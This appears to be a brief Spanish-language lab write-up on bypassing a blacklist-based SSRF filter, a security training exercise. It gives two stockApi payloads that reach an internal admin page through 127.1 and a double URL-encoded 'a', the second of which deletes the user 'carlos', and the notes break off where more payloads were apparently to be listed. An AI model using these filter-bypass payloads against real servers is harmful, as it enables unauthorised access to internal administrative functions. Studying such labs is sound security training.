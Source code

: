 ```yaml
---
layout: default
title: 4 - SSRF with blacklist-based input filter
---
```

stockApi=http://127.1/%2561dmin

Le hacemos doble url encode a la a de admin y ==bypasseamos el filtro.==

stockApi=http://127.1/%2561dmin/delete?username=carlos


Por si acaso leer esto en busca de payloads:
